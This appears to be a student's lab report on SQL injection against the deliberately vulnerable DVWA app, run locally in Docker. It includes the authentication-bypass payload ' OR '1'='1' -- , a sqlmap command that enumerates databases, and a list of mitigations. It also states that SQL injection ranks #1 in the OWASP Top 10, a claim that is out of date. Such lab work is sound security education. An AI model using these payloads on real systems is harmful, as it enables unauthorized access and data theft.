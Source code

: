 ```yaml
---

## 📜Day 4 Report

### **Web Security Basics & SQL Injection**

### **Objective: Understand and exploit SQL Injection vulnerabilities.**
---
```


### **Introduction**
Web security is the practice of protecting websites, applications, and APIs from malicious attacks. Among the most critical threats is SQL Injection (SQLi), a vulnerability that allows attackers to manipulate databases by injecting malicious SQL code. It ranks #1 in the OWASP Top 10 for its prevalence and impact.

### **Why SQL Injection Matters**
🔹**Data Breaches:**  Attackers can steal sensitive data (e.g., user credentials, payment info).

🔹**Data Manipulation:** Delete, modify, or insert unauthorized records.

🔹**Full System Compromise:** Escalate to remote code execution in worst-case scenarios.

---
## **📜Tasks Completed**

### **1️⃣  Set Up DVWA (Damn Vulnerable Web App)**
✔️ **Deployed via Docker:**
```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

✔️ **Access DVWA:**
  - **Navigated to **`http://localhost`** on my browser.**
  - **Logged in with credentials: **`admin`** / **`password`**.**
  - **Set the security level to **Low** (DVWA Security tab).**

---

### **2️⃣ Manual SQL Injection Exploit**
**✔️ Bypassed Authentication:**
  - **Payload Used:** **`' OR '1'='1' -- `**

```
-- Original Query (simplified)  
SELECT * FROM users WHERE user = '$input' AND password = '$hashed_pass';  

-- Injected Query  
SELECT * FROM users WHERE user = '' OR '1'='1' -- ' AND password = '...';  
```
📌 **Output:** Logged in as admin without a valid password.


---

### **3️⃣ Automated Exploitation with SQLMap**
**✔️ Command Executed:**
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id" --dbs
```

**✔️Flags Explained:**
  - **`--dbs`:** Enumerate databases.
  - **`--cookie`:** Authenticate using your DVWA session cookie (required for access).

**✔️ Example Output:**
```
available databases [2]:  
[*] dvwa  
[*] information_schema
```

---

### **🚀Key Takeaways**
🔹**SQL Injection Risks:**
  - **Unfiltered user input allows attackers to manipulate database queries.**
  - **High-impact exploits: data theft, privilege escalation, and system compromise.**

🔹**Mitigation:**
  - **Parameterized queries (e.g., using PDO in PHP).**
  - **Input validation (e.g., allow only alphanumeric characters in usernames).**

---

![Screenshot 2025-03-04 105435](https://github.com/user-attachments/assets/be1c0958-8bee-4355-8186-f1913442869d)

![Screenshot 2025-03-04 105421](https://github.com/user-attachments/assets/31c75659-9608-4534-9363-68d9c4b6d178)

![Screenshot 2025-03-04 105408](https://github.com/user-attachments/assets/2e9e80d4-2cdf-4351-8a1a-930ff4431f46)

![Screenshot 2025-03-04 105247](https://github.com/user-attachments/assets/3e8fddbd-a948-4a9b-a061-a72ffd2ba373)

![Screenshot 2025-03-04 105232](https://github.com/user-attachments/assets/13410148-fbe1-4b5c-9145-e240e28cd537)

![Screenshot 2025-03-04 105215](https://github.com/user-attachments/assets/20e8b7ff-ef74-4976-82d8-630b7fd7ff32)

![Screenshot 2025-03-04 105200](https://github.com/user-attachments/assets/6f8df56a-532d-4e89-858f-a0ffca7e8359)

![Screenshot 2025-03-04 105113](https://github.com/user-attachments/assets/41ad3b5d-8596-4a38-850d-cd8eebd4ec7b)

![Screenshot 2025-03-04 105058](https://github.com/user-attachments/assets/67280bc3-949e-441f-bc41-6f7416edfe5b)

![Screenshot 2025-03-04 105040](https://github.com/user-attachments/assets/0d2d767d-6336-484d-be27-d255ff751518)

![Screenshot 2025-03-04 105027](https://github.com/user-attachments/assets/1a9311d8-1f68-4c09-8121-90344a4d56ef)

![Screenshot 2025-03-04 105011](https://github.com/user-attachments/assets/a60b77f9-a6a6-4c06-8726-69e45cc76610)

![Screenshot 2025-03-04 104931](https://github.com/user-attachments/assets/3282fdaa-6047-4d43-9b7f-5b446d8b7cb4)
